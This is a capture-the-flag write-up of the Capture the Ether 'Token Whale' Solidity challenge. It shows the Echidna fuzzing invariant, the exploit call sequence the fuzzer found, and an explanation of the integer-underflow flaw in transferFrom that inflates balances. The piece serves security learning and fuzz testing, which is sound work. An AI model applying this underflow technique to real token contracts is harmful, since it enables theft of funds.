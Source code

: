 ## Token Whale Capture the Ether challenge and Echidna

### Challenge
The Token Whale contracts is an ERC20-compatible hard to acquire token. There’s a fixed supply of 1,000 tokens, all of which are user's to start with. Find a way to accumulate at least 1,000,000 tokens to solve this challenge.

### What was it testing?
The specific invariant being checked was the player's balance. In order to break the CTF we needed to violate the condition of a user's balance limit of 1,000,000, therefore this was the function:
```
    function echidna_isCompleted() public view returns (bool) {

        return balanceOf[player] <= 1000000;
    }
```

### Echidna results
The tool found this path to achieve the condition violation:
```
Call sequence:
   approve(0x20000,167133266616215219087984434971341992939411184825004473792248855581927478929) from: 0x0000000000000000000000000000000000030000 Time delay: 440097 seconds Block delay: 127
   transferFrom(0x30000,0xffffffff,671) from: 0x0000000000000000000000000000000000020000 Time delay: 355645 seconds Block delay: 32767
   transfer(0x10000,115792089237316195423570985008687907853269984665640564039457584007913129638936) from: 0x0000000000000000000000000000000000020000 Time delay: 297507 seconds Block delay:    
   transfer(0x30000,71834082248646112960033315906464535836812324211014610942410955687412905560741) from: 0x0000000000000000000000000000000000010000 Time delay: 358061 seconds Block delay: 33200
```

### Results interpretation
The real trick to solve this challenge is to underflow an user's balance by performing a transfer that will execute `balanceOf[msg.sender] -= value;`. To better understand echidna results let's remember this function signatures: `approve(address spender, uint256 value)`, `transferFrom(address from, address to, uint256 value)`, and `transfer(address to, uint256 value)`. Let's go through the calls:

1. The approve function doesnt require the approved value to be less than the actual balance, that's why the caller could make that `approve` call with such a large number.(msg.sender in this tx: address(3))
2. Since address(2) has an allowance by address(3) it can can bypass the requires, but when `transferFrom` calls `_transfer` it doesnt subtract from the `from` parameter sent to `transferFrom` but from the msg.sender's balance effectively underflowing.
3. address(2) transfers a big amount to address(1).
4. address(1) is able to transfer a big amount to address(3).

